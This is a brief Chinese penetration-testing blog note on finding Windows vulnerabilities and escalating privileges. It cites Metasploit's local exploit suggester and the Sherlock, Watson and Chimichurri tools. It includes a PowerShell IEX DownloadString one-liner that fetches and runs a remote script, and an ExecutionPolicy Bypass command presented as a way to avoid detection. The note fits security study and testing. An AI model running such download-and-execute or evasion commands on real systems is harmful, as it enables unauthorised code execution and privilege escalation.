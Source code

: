 ```yaml
---
title: Windows漏洞扫描与提权
date: 2021/12/12
tags: [windows,渗透测试,漏洞利用]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
---
```




# windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)

```
初步使用本地加载脚本

Import-Module Sherlock.ps1

远程加载脚本

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')


在不触发脚本执行检测的情况下运行Sherlock

powershell -ExecutionPolicy Bypass -File Sherlock.ps1
```

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)